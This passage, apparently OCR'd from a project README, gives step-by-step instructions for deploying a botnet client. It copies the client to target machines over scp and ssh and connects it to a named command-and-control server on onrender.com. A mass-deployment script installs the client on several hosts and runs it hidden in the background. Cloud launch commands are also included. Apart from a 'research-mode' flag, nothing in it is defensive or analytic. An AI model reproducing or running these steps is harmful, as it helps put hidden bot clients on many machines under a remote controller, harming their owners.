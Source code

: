 ### **1. Manual Deployment**
Copy and run clients manually on target systems:

```bash
# Copy client to target machine
scp bot-client user@target-machine:/tmp/

# SSH to target and run
ssh user@target-machine
cd /tmp
./bot-client --server https://botnet-wqg2.onrender.com --research-mode
```

### **2. Mass Deployment Script**
Deploy to multiple machines automatically:

```bash
#!/bin/bash
# deploy-clients.sh

SERVERS=(
  "192.168.1.100"
  "192.168.1.101" 
  "192.168.1.102"
)

C2_SERVER="https://botnet-wqg2.onrender.com"

for server in "${SERVERS[@]}"; do
  echo "Deploying to $server..."
  
  # Copy client
  scp bot-client user@$server:/tmp/
  
  # Run in background
  ssh user@$server "cd /tmp && nohup ./bot-client --server $C2_SERVER --research-mode > /dev/null 2>&1 &"
  
  echo "Deployed to $server"
done
```

### **3. Cloud Instance Deployment**
Deploy clients on cloud instances (AWS, DigitalOcean, etc.):

```bash
# AWS EC2 deployment
aws ec2 run-instances \
  --image-id ami-12345678 \
  --count 5 \
  --instance-type t2.micro \
  --user-data file://client-userdata.sh

# DigitalOcean deployment
doctl compute droplet create bot-client-1 \
  --image ubuntu-20-04-x64 \
  --size s-1vcpu-1gb \
  --user-data-file client-userdata.sh
```

